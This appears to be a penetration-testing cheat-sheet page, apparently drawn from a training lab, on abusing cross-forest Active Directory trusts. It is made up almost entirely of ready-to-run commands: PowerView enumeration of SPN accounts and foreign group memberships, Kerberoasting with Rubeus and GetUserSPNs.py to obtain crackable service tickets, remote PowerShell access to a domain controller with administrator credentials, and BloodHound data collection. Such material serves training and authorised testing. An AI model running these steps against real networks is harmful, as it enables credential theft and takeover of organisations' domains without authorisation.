 ```yaml
---
layout: app
title: "AD Domain Trusts Cross-Forest"
tags: ["Kerberoasting"]
section: "Active Directory"
---
```


# Enumerating Accounts for Associated SPNs Using Get-DomainUser

```powershell
(powerview)> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

```powershell
(powerview)> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```


## Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

```powershell
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

# Admin Password Re-Use & Group Membership

```powershell
(powerview)> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
(powerview)>Convert-SidToName [Group SID]
```
## Accessing to DC Using Enter-PSSession

```powershell
(powerview)> Enter-PSSession -ComputerName COMPUTER-DC.DOMAIN -Credential domain\administrator
```
# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

```bash
GetUserSPNs.py -target-domain [cross domain] domain/username
```
Rerunning the command with the **-request** flag added gives us the TGS ticket. We could also add **-outputfile** <OUTPUT FILE> to output directly into a file that we could then turn around and run Hashcat against.

## Using the -request Flag

```bash
GetUserSPNs.py -request -target-domain [cross domain] domain/username
```

# Hunting Foreign Group Membership with Bloodhound-python


```bash
bloodhound-python -d [domain] -dc [domain computer] -c All -u [username] -p [password]
```

## Compressing the File with zip -r
```bash
zip -r ilfreight_bh.zip *.json
```

After uploading the second set of data (either each JSON file or as one zip file), we can click on Users with Foreign Domain Group Membership under the Analysis tab and select the source domain as **[principal domain]**. Here, we will see the built-in Administrator account for the **[domain name]** domain is a member of the built-in Administrators group in the **[child domain]** domain as we saw previously.

![](https://academy.hackthebox.com/storage/modules/143/foreign_membership.png)

